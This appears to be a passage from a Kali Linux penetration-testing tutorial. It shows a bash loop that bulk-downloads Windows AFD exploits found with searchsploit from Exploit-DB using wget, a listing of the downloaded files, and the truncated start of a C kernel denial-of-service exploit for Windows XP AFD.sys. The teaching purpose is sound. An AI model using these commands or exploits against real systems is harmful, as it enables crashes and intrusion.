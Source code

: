 



```
kali@kali:~$ for e in $(searchsploit afd windows -w -t | grep http | cut -f 2 -d "|");do exp_name=$(echo $e | cut -d "/" -f 5) && url=$(echo $e | sed 's/exploits/raw/') && wget -q --no-check-certificate $url -O $exp_name; done
```

Once we run it, we wait for the command prompt and verify that the exploits were indeed
downloaded, using file to verify that the files are text:

```
kali@kali:~$ ls -l  
total 408
-rw-r--r-- 1 kali kali   1363 Dec  3 04:17  17133
-rw-r--r-- 1 kali kali  12215 Dec  3 04:17  18176
-rw-r--r-- 1 kali kali   9698 Dec  3 04:17  18755
-rw-r--r-- 1 kali kali  11590 Dec  3 04:17  21844
-rw-r--r-- 1 kali kali  10575 Dec  3 04:17  39446
-rw-r--r-- 1 kali kali  14193 Dec  3 04:17  39525
-rw-r--r-- 1 kali kali  32674 Dec  3 04:17  40564
-rw-r--r-- 1 kali kali  12636 Dec  3 04:17  42009

kali@kali:~$ file 17133
17133: C source, ASCII text, with CRLF line terminators
```



We can inspect each exploit, and see that we did, in fact, grab the raw exploits:

```
$ cat 17133
////////////////////////////////////////////////////////////////////////////
//
// Title: Microsoft Windows xp AFD.sys Local Kernel DoS Exploit
// Author: Lufeng Li of Neusoft Corporation
// Vendor: www.microsoft.com
// Vulnerable: Windows xp sp3
//
/////////////////////////////////////////////////////////////////////////////

#include <stdio.h>
#include <Winsock2.h>

#pragma comment (lib, "ws2_32.lib")

BYTE buf[]={
0xac,0xfd,0xd3,0x00,0x01,0x00,0x00,0x00,0x00,0x00,
0x00,0x00,0x20,0x00,0x00,0x00,0xe8,0xfd,0xd3,0x00,
0xb8,0xfd,0xd3,0x00,0xf8,0xfd,0xd3,0x00,0xc4,0xfd,
0xd3,0x00,0xcc,0xfd,0xd3,0x00};

int main( )
.....
```
